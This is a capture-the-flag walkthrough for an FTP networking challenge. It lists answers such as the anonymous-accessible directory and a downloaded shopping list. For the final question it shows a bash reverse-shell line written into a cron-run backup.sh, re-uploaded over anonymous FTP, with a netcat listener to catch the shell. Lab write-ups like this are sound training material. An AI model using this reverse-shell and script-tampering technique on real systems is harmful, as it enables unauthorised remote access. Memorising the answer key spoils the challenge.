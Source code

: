 # [Day 9] Networking - Anyone can be Santa!

## Topics

- FTP

### 1. Name the directory on the FTP server that has data accessible by the "anonymous" user
```
public
```
Connect to the FTP server with the command: `ftp 10.10.x.x`. Once you're connected you can run `ls` to find the directory with the necessary permissions.

### 2. What script gets executed within this directory?
```
backup.sh
```
Change into the public folder. Inside you can run `ls` again to find the file.

### 3. What movie did Santa have on his Christmas shopping list?
```
The Polar Express
```
Download the file with `get shoppinglist.txt`. In another terminal you should see the downloaded file (Make sure you're on the same directory as the ftp connection). With the downloaded file in your computer, you can cat it out.

### 4. Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

1. Download the `backup.sh` script with `get backup.sh`
2. In your computer, edit the downloaded file. Add the following line in order to get a reverse shell:
```bash
bash -i >& /dev/tcp/10.10.x.x/4444 0>&1
```
- Make sure the IP is your THM machine's IP
3. In another terminal, start a netcat listener `nc -lvnp 4444`
4. In the terminal with the ftp connection, upload the file with `put backup.sh`
5. Wait for the reverse shell.
6. Once you get it, you should find the file with the flag.